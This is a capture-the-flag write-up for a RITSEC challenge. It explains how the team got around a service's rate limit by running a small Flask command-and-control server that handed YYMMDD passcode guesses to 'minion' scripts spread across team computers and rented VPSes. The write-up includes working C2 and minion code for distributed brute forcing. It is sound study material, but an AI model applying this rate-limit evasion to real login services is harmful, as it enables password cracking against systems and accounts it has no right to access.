




# Guess The Password

## Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))

## Challenge Description

```
We found a VP's box, but when we try to brute force his short password, we get rate limited! Can you find a way around the rate limiting to get the password?
```
Remote: `nc ctf.ritsec.club 9009` and `nc ctf.ritsec.club 2001`

## Solution

We are given two remote instances. Upon connecting to the instance at port `9009`, we are presented with the following dialogue:

```
Enter the passcode to access the secret:
```

Entering a random guess results this message:

```
That password isn't right!
	Hint: Your password might be a date in the format YYMMDD

Closing connection...
```

If we tried to just guess all of the possible passwords, we would quickly be confronted with the rate limiter, which seemed to limit us to one guess every 10 seconds:

```bash
$ nc ctf.ritsec.club 9009
You are being rate limited
```

Okay, so *maybe* password bruteforce is not the way to go. Let's check out the other remote instance:

```bash
$ nc ctf.ritsec.club 2001
220 (vsFTPd 3.0.3)
```

This appears to be the FTP server that was mentioned in the description. However, upon attempting to login as an anonymous user, our team was never able to read data from the server. Each time we tried to `ls` or `get` from within an FTP client, the server hanged. So, in a desparate attempt for points, we decided to bruteforce...

## Literally guessing the password

This was definitely not the intended solution, according to the author. But we were able to effectively bypass the long rate limit of one request every 10 seconds. 

### Building a Small C2 Server

After joking with other team members about going through with this, we started to seriously consider it. 

The main idea would be to have a command and control server that generates all possible codes from the `YYMMDD` format and then hands out one code to a "minion" script running on a different machine to try the passcode. This should support many minions and should be able to detect when a passcode was successful. In the event that a working passcode was found, the C2 needed to be able to order all of the minions to shut down to prevent further passcode trials. 

To generate all possible passcodes, the following function was used:

```python
codes = []

def gen_codes():
    # YYMMDD
    global codes
    years = [str(i).zfill(2) for i in range(100)]
    months = [str(i).zfill(2) for i in range(1,13)]
    days = [str(i).zfill(2) for i in range(1,32)]
    codes = [''.join(x) for x in list(product(years,months,days))]
    logging.info(f"Generated {len(codes)} possible codes")
```

The C2 would be a simple Flask server that contained endpoints each minion could hit to ask for a code or report the status of a passcode trial. 

Below is the code for the endpoint that distributes codes from the generated list:

```python
@app.route('/<uuid>/giveCode',methods=["GET"])
def give_code(uuid):
    global knownMinions
    if uuid not in knownMinions.keys():
        abort(403)
    global codes
    global workingCodes
    toGive = codes.pop()
    # add to workingCodes along with a timestamp.
    # this way, we can check to see if any working codes have been out for too long, indicated failure of the minion script
    while toGive in workingCodes.keys():
        toGive = codes.pop() # lock-ish
    workingCodes[toGive] = {uuid: arrow.utcnow()}
    return jsonify({"code": toGive, "cmd":"try"})
```

Each minion will request (with their own UUID), /giveCode and they will receive the next code in the list. The `cmd` key is just to specify what the minion should do with the given information. All responses to the minions will have this `cmd` parameter. 

Once a minion tries a code, it will then submit the result to the C2 via the `/<uuid>/codeResponse` endpoint:

```python
@app.route('/<uuid>/codeResponse',methods=["POST"])
def submit_code(uuid):
    global knownMinions
    if uuid not in knownMinions.keys():
        abort(403)
    global codes
    global workingCodes
    data = dict(request.get_json())
    if 'code' not in data or 'status' not in data:
        abort(500)
    code = data['code']
    status = data['status']
    del workingCodes[code]
    # check for expired codes from crashed minions
    toDel = []
    for k,v in workingCodes.items():
        if arrow.utcnow().timestamp() - list(v.values())[0].timestamp() > 180:
            # past 180 second expiration
            toDel.append(k)
            codes.append(k)
            logging.info(f"Cleaning code {code} from expired workingCodes")
    for k in toDel:
        del workingCodes[k]
    # check status of passcode trial
    if status == 'success':
        # we got em
        logging.info(f"SUCCESS!!!!!!: {code}")
        global doDie
        doDie = True # tell all minions to die on next connection
        return jsonify({"cmd":"die"})
    # failure
    logging.info(f"fail: {code}")
    return jsonify({"cmd":"getNew"}) # tell minions to get a new code
```

The rest of the C2 can be found at [bingus.py](./bingus.py). The only other parts of the program that matter are the registration endpoints, which are used to uniquely identify minions if necessary. A kill switch also needed to be implemented, so that was done in a check before any request was processed:

```python
@app.before_request
def before_it():
    global doDie
    if doDie:
        return jsonify({"cmd":"die"})

@app.route('/')
def root():
    return 'bingus'

@app.route('/register',methods=["GET"])
def register():
    global knownMinions
    alreadyKnown = True if request.remote_addr in knownMinions.values() else False
    if alreadyKnown:
        abort(403)
    thisUUID = str(uuid.uuid4())
    knownMinions[thisUUID] = request.remote_addr
    return jsonify({"uuid": thisUUID, "cmd":"continue"})

@app.route('/<uuid>/check',methods=['GET'])
def check(uuid):
    global knownMinions
    if uuid in knownMinions.keys():
        return jsonify({"status":"success", "cmd":"getNew"})
    return jsonify({"status":"error","cmd":"die"})
```

### Designing the Minion

[The minion](./minion.py) was essentially a state machine, which was told what to do by the C2. After registering with the C2, the minions would fall into an infinite loop in which they checked for passcodes, tried them, and reported back their findings:

```python
print("Connected! Starting bruteforce...")
while True:
    if res['cmd'] == 'getNew':
        res = getURL(f'/{uuid}/giveCode')
        if res['code']:
            code = res['code']
        else:
            print("Did not receive a code, server may be down.")
            break
    elif res['cmd'] == 'try':
        status = ''
        rateLimited = False
        time.sleep(sleepTime) # 10 seconds
        try: # connect to passcode service
            with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
                s.connect(victim)
                while True:
                    data = s.recv(1024)
                    if b'You are being rate limited' in data:
                        print("Rate limiting caught")
                        rateLimited = True
                        break # try again
                    if b'Enter the passcode to access the secret:' in data:
                        break
                if rateLimited:
                    continue
                s.sendall(code.encode() + b'\n')
                while True:
                    data = s.recv(4096)
                    if b"Closing connection..." in data:
                        break
                s.close()
        except:
            continue
        if b"That password isn't right!" in data:
            status = 'failed'
        else:
            status = 'success'
        print(f"{status}: {code}")
        res = postURL(f"/{uuid}/codeResponse",{'code': code, 'status': status})
    elif res['cmd'] == 'die':
        os.remove(uuidFile)
        print("C&C said to die, goodbye!")
        break
    else: # unknown cmd
        print(f"Received unknown command in {res}")
        break
```

### Cracking some codes

Now that we had a C2 and a minion script, all that was left to do was deploy the minions to as many computers as we could. Multiple team members allowed the minion script to run in the background on their computers. We also rented a some VPSes for a few cents:




After running the minion script on all of these machines simultaneously, we were able to guess the password within 4 or 5 hours:



Once we had the passcode, we entered it manually to get the flag:



Flag: `RITSEC{'PYxorD'}`